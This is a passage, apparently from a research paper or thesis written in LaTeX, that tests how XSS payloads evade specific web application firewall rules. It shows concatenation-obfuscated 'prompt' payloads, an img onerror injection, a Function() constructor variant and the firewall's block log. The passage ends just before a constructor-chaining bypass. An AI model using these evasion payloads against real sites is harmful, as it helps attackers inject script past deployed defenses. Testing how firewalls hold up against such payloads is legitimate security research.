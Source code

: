 Using string concatenation to replace the character sequence \verb|'prompt'| with \verb|'promp + t'| successfully made the payload evade rule \verb|941390| and bypass the WAF. The bypassing payload:

\begin{lstlisting}[style=basicStyle, language=Python]
`var s = 'secret'; promp` + `t(s, s)`
\end{lstlisting}

If this payload is correctly injected into the evaluation test page mentioned under Section~\ref{sec:evaluation}, it results in the following HTML code (shortened):

\begin{lstlisting}[style=basicStyle, language=Python]
<div id="div1">
	<img src="0" onerror="`var s = 'secret'; promp` + `t(s, s)`">
</div>
\end{lstlisting}

While this executes without exceptions, it does not achieve the wished-for effect. The effect achieved is the concatenation of the two strings \verb|`var s = 'secret'; promp`| and \verb|`t(s, s)`|. As mentioned under Section~\ref{sec:stringconc}, the payload string needs to be evaluted on the target in order to have a functioning payload after obscuring the statements inside with string concatenation. To achieve this, the \verb|Function()| constructor was used:

\begin{lstlisting}[style=basicStyle, language=Python]
new Function(`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}

When evaluating the firewall against this payload, the payload was blocked according to rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=function constructor blocked, label={lst:funconblocked}]
<payload>new Function(`var s = 'secret'; promp` + `t(s, s)`)()</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"new Function("</MatchedData>
\end{lstlisting}

To evade rule with id \verb|934100|, calling the \verb|Function()| constructor was substituted by \verb|[]['constructor']['constructor']()| according to the technique mentioned under Section~\ref{sec:functionconstructor}:

